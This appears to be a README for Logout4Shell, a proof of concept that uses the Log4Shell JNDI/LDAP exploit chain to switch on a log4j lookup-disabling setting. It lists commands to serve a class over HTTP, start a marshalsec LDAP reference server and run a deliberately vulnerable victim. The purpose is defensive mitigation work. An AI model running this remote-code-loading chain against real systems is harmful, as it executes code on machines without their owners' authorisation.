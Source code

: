 # Logout4Shell

> Using the exploit to enable the log4j FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS configuration for java version <= 1.8.0.121

Step to reproduce：

1. Download the POC, build, make some changes, and run the POC

   1.1 git clone https://github.com/cybereason/Logout4Shell.ssh

   1.2 build it - mvn package

   1.3 cd target/class

   1.4 run the webserver - "python3 -m http.server 8888"

2. Download, build and run an ldap server

   2.1 git clone https://github.com/mbechler/marshalsec.git

   2.2 mvn package

   2.3 java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8888/#Log4jRCE"

3. Run the victim

   3.1 cd Logout4Shell

   3.1 run mvn exec:java -Dexec.mainClass="log4j" -Dcom.sun.jndi.ldap.object.trustURLCodebase=true 

Expected result 
- reloading the log4j configuration with FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS=true
